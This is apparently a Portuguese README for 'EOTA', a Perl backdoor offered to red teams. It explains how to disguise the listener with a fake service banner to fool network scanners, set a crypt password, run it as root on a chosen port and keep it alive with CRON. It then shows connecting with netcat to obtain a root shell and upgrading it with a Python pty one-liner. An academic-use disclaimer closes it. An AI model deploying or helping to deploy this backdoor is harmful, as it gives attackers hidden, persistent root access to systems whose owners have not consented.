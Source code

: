 # EOTA
Este script é uma backdoor ''' Perl ''' projetada para equipes vermelhas e que funciona como um serviço/porta qualquer que voce desejar.<br/>
A backdoor informar qualquer programa de mapeamento de rede que ele é um serviço determinado pelo orquestrador da ferramenta.<br/>
Por favor modifique o codigo fonte da ferramenta para personalização.

#### obs: Necessario modificação para implementar criptografia no trafego.

## VARIAVEIS 
* $service = Utilizada como banner para ser exibido aos scanners.

* $sec = Esta é uma senha para utilizar a backdoor, não queros xeretas xeretando, utilize o perl para gerar a senha:<br/>
perl -e 'print crypt ("PASSWORD","salto")'<br/>
Modifique o PASSWORD para a senha e o SALTO para o salto utilizado na senha.

* $acs = Modifique esta variavel para controle de shell , por default utilizamos o /bin/bash.

## DICA:
EOTA foi projetado para ser utilizado com um arquivo CRON, seu banner exibe as configuracoes necessarias para esta feature funcionar.

## EXECUTANDO
Para executar EOTA voce precisará de acesso root ao sistema, depois execute os seguintes comandos:

>$ git clone https://github.com/Outs1d3r-Net/PERL.git<br/>
>$ cd PERL<br/>
>$ chmod a+x EOTA.pl<br/>
>.# perl ./EOTA.pl 110 & 2>&1

## CONECTANDO
>$ nc IP_alvo 110<br/>
>PASSWORD<br/>
>id<br/>
>uid=0(root) gid=0(root) groups=0(root)

## TTY
Se voce precisar de um TTY voce pode verificar com o python por exemplo, para obter uma linha de comando mais interativa:<br/>
>which python<br/>
>/usr/bin/python2 -c 'import pty;pty.spawn("/bin/bash")'<br/>


#### ATENÇÃO: Não me responsabilizo pelo uso indevido desta ferramenta, ela foi projetada para fins academicos. 
